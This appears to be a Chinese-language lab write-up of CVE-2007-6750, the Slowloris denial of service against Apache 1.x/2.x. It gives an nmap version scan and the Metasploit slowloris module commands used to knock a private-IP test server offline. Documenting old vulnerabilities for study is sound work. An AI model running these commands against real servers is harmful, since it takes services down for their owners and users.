 （CVE-2007-6750）Apache ddos
============================

一、漏洞简介
------------

Apache
HTTP服务器1.x和2.x允许远程攻击者通过部分HTTP请求导致拒绝服务(守护进程中断)，如Slowloris所示，这与2.2.15之前版本中缺少mod\_ReqTimeout模块有关

二、漏洞影响
------------

Apache 1.x/2.x

三、复现过程
------------

nmap -sV -p80
192.168.146.175(用nmap查看Apache版本)(Apache2.2.3初步断定存在漏洞)![](./.resource/(CVE-2007-6750)Apacheddos/media/rId24.png)

接着访问网站查看是否正常(发现网站正常)![](./.resource/(CVE-2007-6750)Apacheddos/media/rId25.png)

    msfconsole(启动metasploit)

    use auxiliary/dos/http/slowloris(使用模块)

    set RHOST 192.168.146.175(设置目标IP)

    run(执行攻击)

![](./.resource/(CVE-2007-6750)Apacheddos/media/rId26.png)

再访问网站查看是否正常(发现网站瘫痪)

![](./.resource/(CVE-2007-6750)Apacheddos/media/rId27.png)

四、参考链接
------------

> https://www.jsxlo.com/cve-2007-6750/
